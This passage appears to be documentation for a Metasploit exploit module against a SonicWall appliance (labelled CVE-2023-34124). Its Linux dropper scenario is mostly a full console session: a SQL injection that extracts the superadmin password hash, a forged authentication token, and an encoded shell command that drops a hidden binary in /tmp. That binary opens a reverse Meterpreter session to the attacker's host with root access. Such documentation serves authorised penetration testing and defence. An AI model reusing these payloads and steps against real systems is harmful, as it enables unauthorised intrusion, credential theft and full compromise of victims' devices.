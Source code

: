 If this is set to `true`, we trust that the `TARGET` is set appropriately and
use that target OS for encoding the command.

## Scenarios

### Linux dropper

This is the default target, and will work against the Linux appliance with
its stripped-down environment. It writes a binary to `/tmp` (by default),
executes it, and deletes it. No special configuration should be necessary,
and you get `root` access:

```
msf > use exploit/multi/http/sonicwall_shell_injection_cve_2023_34124
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set RHOST 10.0.0.89
RHOST => 10.0.0.89
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set LHOST 10.0.0.227
LHOST => 10.0.0.227
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] Attempting to use SQL injection to grab the password hash for the superadmin user...
[*] Generated SQL injection: ' union select (select ID from SGMSDB.DOMAINS limit 1), '', '', '', '', '', (select concat(id, ':', password) from sgmsdb.users where active = '1' order by issuperadmin desc limit 1 offset 0),'', '', '
[*] Generated a token using built-in secret key: /J50ZtvLJddOf5FI4nYdMJcX8IQ=
[*] Sending SQL injection request to get the username/hash...
[+] Found an account: admin:5f4dcc3b5aa765d61d8327deb882cf99
[*] Grabbing server hashing token...
[*] Got the server-side token: 10638945083391156307247271263824
[*] Generated client token: de3787d4ac2f5db099666e6467b11c38
[*] Attempting to authenticate with the client token + password hash...
[+] Successfully logged in as admin (Linux detected!)
[*] Encoding (Linux) payload
[*] Encoded shell command: bash -c PLUS\=\$\(echo\ -e\ begin-base64\ 755\ a\\\\nKwee\\\\n\=\=\=\=\ \|\ uudecode\ -o-\)\;echo\ -e\ begin-base64\ 755\ /tmp/.ctdtzpxv\\\\nf0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA\$\{PLUS\}gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAAMf9qCViZthBIidZNMclqIkFaagdaDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXAoAAONRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp\$\{PLUS\}Wg8FSIXAeO3/5g\=\=\\\\n\=\=\=\=\ \|\ uudecode\ \;\ coproc\ /tmp/.ctdtzpxv\ \;\ rm\ /tmp/.ctdtzpxv
[*] Attempting to execute the shell injection payload
[+] Payload sent!
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 10.0.0.89
[*] Meterpreter session 1 opened (10.0.0.227:4444 -> 10.0.0.89:43566) at 2023-08-18 13:38:00 -0700

meterpreter > getuid
Server username: root
```
